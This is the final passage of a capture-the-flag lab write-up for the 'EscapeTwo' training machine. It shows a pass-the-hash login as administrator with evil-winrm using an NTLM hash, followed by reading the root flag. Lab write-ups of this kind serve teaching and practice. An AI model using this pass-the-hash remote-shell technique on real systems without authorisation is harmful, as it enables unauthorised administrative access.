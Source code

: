 <br />

Finally, we can connect to the system as `administrator`:

<br />

```bash
❯ evil-winrm -i sequel.htb -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
```

<br />

To get the `root.txt` flag:

<br />

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
8538ce5d9f76d705bf323dbeeaxxxxxx
```

<br />

EscapeTwo machine pwned!

Hope you learned a lot and enjoyed this writeup.

Keep hacking!❤️❤️

<br />
